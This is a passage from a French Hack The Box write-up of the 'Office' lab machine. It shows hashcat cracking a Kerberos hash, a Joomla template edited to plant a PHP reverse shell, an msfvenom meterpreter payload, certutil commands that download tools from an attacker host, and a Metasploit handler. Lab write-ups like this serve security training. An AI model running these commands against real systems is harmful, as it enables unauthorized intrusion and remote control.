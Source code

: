 ![Kerberos hash found](/images/HTB-Office/kerberos-hash.png)

En utilisant hashcat, nous obtenons le mot de passe `playboy69`.

```
hashcat -m 19900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

![Kerberos hash cracked with hashcat](/images/HTB-Office/hash-cracked.png)

## Accès Initial

Avec les identifiants `administrator:playboy69` nous nous connectons au tableau de bord de Joomla, nous sommes connectés en tant que `Tony Stark`.

![Joomla Dashboard](/images/HTB-Office/joomla-dashboard.png)

Comme c'est souvent le cas avec les logiciels CMS, il est possible de modifier les templates à l'aide d'un code personnalisé. Nous exploitons cette fonction pour obtenir un shell inversé. En allant dans `System` --> `Site Templates` --> cliquez sur `Cassiopeia Details and Files` --> remplacez `error.php` par un reverse shell PHP que vous pouvez trouver sur [revshells](https://www.revshells.com/) --> Save and Close --> enfin visitez `http://office.htb/templates/cassiopeia/error.php` pour activer le reverse shell.

Sur le listener, nous obtenons un shell sous le nom de `web_account`.

![Initial foothold, shell as web_account](/images/HTB-Office/shell-office.png)

### Shell en tant que tstark

Nous ne pouvons pas lire le fichier `user.txt` avec ce compte mais nous pouvons passer à l'utilisateur `tstark`. Puisque nous avons déjà les identifiants corrects, nous pouvons utiliser [runascs](https://github.com/antonioCoco/RunasCs) pour accéder au compte, nous utiliserons un shell meterpreter.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT_NUMBER> -f exe -o payload.exe
```

![malicious file generated with msfvenom](/images/HTB-Office/msfvenom-cmd.png)

Après avoir envoyé les deux fichiers à la cible, nous configurons le handler dans Metasploit.

```
certutil.exe -urlcache -split -f http://IP_ADDRESS:PORT/RunasCs.exe runascs.exe

certutil.exe -urlcache -split -f http://IP_ADDRESS:PORT/payload.exe payload.exe
```

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <IP_ADDRESS>
set lport <PORT_NUMBERS>
run
```
